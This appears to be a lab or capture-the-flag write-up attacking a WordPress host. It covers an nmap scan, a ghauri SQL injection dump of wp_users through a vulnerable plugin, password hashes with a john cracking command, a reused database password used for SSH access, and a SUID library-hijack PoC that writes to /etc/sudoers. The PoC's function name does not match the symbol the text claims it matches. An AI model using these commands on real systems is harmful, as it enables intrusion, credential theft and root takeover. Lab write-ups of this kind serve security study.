 **IP:** `192.168.126.229`

---

## TARGET / OS & TECH
- OS/TECH: Ubuntu 13.9, WordPress, PHP

---

## USERS (from dumped `wp_users`)
| USER     | PASSWORD HASH                                |
|----------|----------------------------------------------|
| admin    | `$P$BDJMoAKLzyLPtatN/WQrbPgHVMmNFn.`         |
| charlie  | `$P$Bd.FfZuysLq8evJ/C6xxWtSB1Ne00p.`         |
| ted      | `$P$BT6Spj.qANCaKd4WR1JGMnC4X.1Kuy/`         |

---

## SERVICES (quick)
- `20/tcp` FTP-data → **closed**
- `21/tcp` FTP → **open** (vsftpd 3.0.5) — anonymous login attempt shows `anonymous:anonymous` no password needed
- `22/tcp` SSH → **open** (OpenSSH 9.6p1 Ubuntu 3ubuntu13.9)
- `80/tcp` HTTP → **open** (nginx 1.24.0) — WordPress site

---

## NMAP (relevant output)
```
PORT     STATE  SERVICE      VERSION
20/tcp   closed ftp-data
21/tcp   open   ftp          vsftpd 3.0.5
|_banner: 220 (vsFTPd 3.0.5)
22/tcp   open   ssh          OpenSSH 9.6p1 Ubuntu 3ubuntu13.9 (Ubuntu Linux; protocol 2.0)
|_banner: SSH-2.0-OpenSSH_9.6p1 Ubuntu-3ubuntu13.9
80/tcp   open   http         nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-trane-info: Problem with XML parsing of /evox/about
```

---

## WPScan / WEB VULNS
- WPScan found plugin **WP-Advanced-Search** vulnerable to **CVE-2024-9796**.
- Using `ghauri` the `wp_users` table was dumped.

**Ghauri command used**
```bash
ghauri -u "http://192.168.126.229/wp-content/plugins/wp-advanced-search/class.inc/autocompletion/autocompletion-PHP5.5.php?t=wp_autosuggest&f=words&l=5&type=0&e=utf-8&q=c&limit=5&timestamp=19692269759899" -D wordpress -T wp_users -C user_login,user_pass --dump
```

---

## CRACKING ATTEMPT
**John the Ripper**
```bash
john --format=phpass --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Result**
```
?:chrish20
?:okadamat17
```

---

## CREDENTIALS FROM `wp-config.php`
Pulled via FTP:
```php
define( 'DB_USER', 'wpadmin' );
define( 'DB_PASSWORD', 'rU)tJnTw5*ShDt4nOx' );
```
- The DB password `rU)tJnTw5*ShDt4nOx` was tested and worked as an SSH login for user **charlie** → got shell.


## PRIVILEGE ESCALATION
- Found SUID binary: `/var/www/wordpress/wp-monitor`

**`wp-monitor` contents (excerpt)**
```
var/log/nginx/access.logError opening log file%s - - [%*[^]]] "%s %s %s" %sPOST /wp-login.php200[Warning] Possible brute force attack detected: %s
[+] Checking the logs.../home/ted/.lib/libsecurity.so[!] This can take a while...init_plugin[!] Function not found in the library!
```

- The binary attempts to load a shared object `libsecurity.so` from `/home/ted` and call `init_plugin()` which is missing.
- Approach: create a shared library providing the required function so that when the SUID binary loads it, the function runs with the binary's effective privileges.

**PoC C code (user-provided)**
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void init_pluging(){
        setuid(0); setgid(0);
        system("echo 'charlie ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers");
}
```

- After placing the crafted `libsecurity.so` in `/home/ted` (matching the expected symbol), running `wp-monitor` results in escalation where `charlie` can run `sudo su` → root.

*End of notes.*
